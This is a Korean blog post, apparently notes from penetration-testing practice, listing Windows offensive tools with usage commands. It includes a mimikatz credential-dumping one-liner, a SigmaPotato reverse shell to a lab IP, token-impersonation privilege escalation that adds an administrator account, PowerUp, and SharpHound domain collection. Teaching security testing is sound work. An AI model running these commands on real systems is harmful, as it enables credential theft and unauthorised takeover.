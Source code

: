```yaml
---
layout: post
title: 유용한 윈도우 툴 모음집
subtitle: 많이 쓰는 윈도우 툴 모음집
category: knowledge
thumbnail-img: /assets/img/hazard.jpg
tags: [windows, tool]
author: Hong
---
```


이번에는 저번 포스팅에 이어서 윈도우 편.

# mimikatz

debug privilege가 있을 때 사용 할 수 있는 툴.

로컬 시스템의 유저 정보와 NTLM해쉬 등을 알 수 있다.

[mimikatz](https://github.com/ParrotSec/mimikatz/tree/master)

evil-winrm의 경우 mimikatz를 실행하면 버그가 걸리는데 이럴 때는 리버스쉘로 옮기거나 원라이너로 명령어를 넘겨주면 된다.

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
```

# Runas

GUI 환경에서 사용할 수 있는 툴.

다른 유저로서 조작하는게 가능하다.

래터럴 무브먼트에 사용하거나 관리자로 실행하는데 활용할 수 있다.

```
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...

PS C:\Users\steve>
```

# winpeas

linpeas의 윈도우 버전.

[winpeas](https://www.kali.org/tools/peass-ng/)

# seatbelt.exe

winpeas같은 툴

# powerup.ps1

칼리에 기본적으로 깔려있다.

`cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .`

쓰기 권한을 가진 파일들을 조회하는게 가능하다.

```
PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1

PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```

# powerview.ps1

이것도 칼리에 기본적으로 있는 툴.

도메인 정보를 파악할 때 유용하다.

사용하기 전에 모듈을 임포트해서 사용한다. `Import-Module`

`Find-LocalAdminAccess`같이 사용 가능.

# sigmapotato

SeImpersonatePrivilege Impersonate a client after authentication Enabled일 때 사용 할 수 있는 툴.

[sigmapotato](https://github.com/tylerdotrar/SigmaPotato/releases/tag/v1.2.6)

바로 리버스쉘로 연결하는 것도 가능하다.

`.\SigmaPotato.exe --revshell 192.168.45.181 9999`

그 밖에도 유저를 추가하거나 수정하는 것도 할 수 있다.

```
.\SigmaPotato "net user hong password /add"

PS C:\temp> .\SigmaPotato.exe "net user hong password /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 932 | Token: 0x660 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1020
[+] Current Command Length: 27 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 5532

[+] Process Output:
The command completed successfully.

.\SigmaPotato "net localgroup Administrators hong /add"

PS C:\temp> .\SigmaPotato.exe "net localgroup Administrators hong /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 932 | Token: 0x660 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1016
[+] Current Command Length: 39 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 6184

[+] Process Output:
The command completed successfully.
```

# winsimpleHTTP

감탄했던 툴 중에 하나.

파이썬이 설치되어 있지 않아도 간단하게 웹서버를 세울 수 있다. 파일을 옮기거나 할 때 편리하다.

[winsimplehttp](https://github.com/remisarrailh/WinSimpleHTTP)

# sharphound

[다운로드 링크](https://github.com/SpecterOps/SharpHound/releases)에서 맞는 버전의 바이너리 파일을 다운받는다.

예를들어 bloodhound의 버전이 4.3.1인 경우 sharphound는 1.1.1을 다운받아야한다.

```powershell
powershell -ep bypass
Import-Module .\Sharphound.ps1

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\temp -OutputPrefix "corp audit"
```
압축 파일이 생성되는데 이 파일을 bloodhound에 업로드해서 분석할 수 있다.

bin파일은 캐시 정보를 포함할 뿐이기 때문에 지워도 상관없다.